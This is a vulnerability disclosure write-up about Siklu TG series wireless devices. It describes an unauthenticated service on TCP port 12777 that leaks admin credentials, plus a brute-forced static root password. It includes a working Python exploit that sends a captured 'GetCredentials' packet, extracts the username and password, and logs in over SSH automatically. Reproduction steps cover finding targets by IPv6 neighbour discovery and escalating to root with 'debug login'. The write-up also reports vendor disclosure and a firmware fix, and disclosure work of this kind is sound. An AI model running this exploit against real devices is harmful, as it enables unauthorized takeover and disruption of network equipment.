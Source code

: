```yaml
---
title: Siklu TG Series - Unauthenticated Credential Disclosure and Static Root Credentials
tags: research cve security siklu
author: Andrew
---
```


## Investigation

Whilst performing a security review of the Siklu TG series of devices, I encountered an interesting behaviour that would allow the "access point" (_DN_) to have full control of its "stations" (_CN_) without any authentication.

Further investigation of this behaviour revealed the Clixon backend process with an IPv6 binding on `TCP 12777`, capturing traffic on this port revealed a sequence of commands which would disclose unique randomly generated credentials for remote administration.

By default all interfaces (ethernet/wireless) on the devices are enabled and attached to the
management plane. With access to an interface in the management plane, the exploit can be
utilised to gain admin level access.

During this investigation it was also noted the `root` user had a weak `md5crypt` hashed password, which was brute forced, but the only observable way to utilise this account remotely was with the `debug login` command once admin access to the device was obtained.


## Impact

Disclosure of device admin credentials allows for full control of the local device, and in the instance of the _DN_ would include all attached _CN_ devices.

The admin credentials can be used to disrupt service, and potentially adjust network configuration details to gain access to other VLANs.

If further `root` access is obtained on the device, a _CN_ would be able to repeat the attack to obtain access to the _DN_ via the `h2h` "host to host" interface on the devices which will bypass bridge filtering.

As the devices run the [Yocto](https://www.yoctoproject.org/) linux distro, once `root` is obtained almost any attack is possible in addition to persistance, such as sniffing network packets.


## Credential Disclosure Exploit PoC
```python
import socket
import sys
import os

address = str(sys.argv[1])  # the target
port = 12777

# Captured command, sends "GetCredentials" to obtain random generated username/password
cmd = bytearray.fromhex("000000290FFF000100000001000100000000800100010000000E47657443726564656E7469616C730000000000")

addrinfo = socket.getaddrinfo(address, port, socket.AF_INET6, socket.SOCK_STREAM)
(family, socktype, proto, canonname, sockaddr) = addrinfo[0]
s = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
s.connect(sockaddr)
s.send(cmd)
data = s.recv(200)
s.close()
#print('Raw data: ', data)
output = "".join(map(chr, data))
#print('Force Converted: ', output)

# Split output, then remove trailing noise as string length is always 35
splits = output.split('#')
username = splits[1][slice(0, 35, 1)]
password = splits[2][slice(0, 35, 1)]
print('Username: ', username)
print('Password: ', password)
os.system("sshpass -p {password} ssh -o StrictHostKeychecking=no {address} -l {username}".format(address = address, username = username, password = password))
```

## Steps to reproduce
1. Ping the 'all hosts' multicast address for interface attached to victim device
    ```shell
    > ping6 -I en7 -c 2 ff02::1
    ```

2. Show all discovered neighbours, identify the victim device by MAC vendor
    ```shell
    > ip -6 neigh show dev en7
    fd3d:e051:727a:46fe:****:****:****:**** lladdr a0:ce:c8:**:**:** REACHABLE
    fe80::1c9f:****:****:**** lladdr a0:ce:c8:**:**:** REACHABLE
    fe80::34d9:1337:b33f:7001 lladdr 0:24:a4:**:**:** REACHABLE
    ```

3. Run exploit
    ```shell
    > python3 tg-getcreds.py fe80::34d9:1337:b33f:7001%en7
    Username:  3bEUccGF8IUTBd4pyOboFlkRIV2NVEuSgEg
    Password:  8J0a/eFkunhGwLsx3mGVgGHORgF4GXyS7gY
    MH-T265@17471234>
    ```
4. Upgrade to `root` shell
    ```shell
    MH-T265@17471234>debug login
    root>
    ```

## Outcomes
After submitting the disclosure report to Siklu they released the 2.1.1 firmware release for the TG series devices, which resolved the credential disclosure exploit.

Siklu did not provide public advice in the release notes of this security issue being resolved.

As for the static root password, it will be removed from new devices in a hardware fix, with no mitigations available for existing products.

**Affected Products:**

Siklu TG Series

**Mitigation:**

Update your Siklu TG Series devices to **Version 2.1.1 or later**.
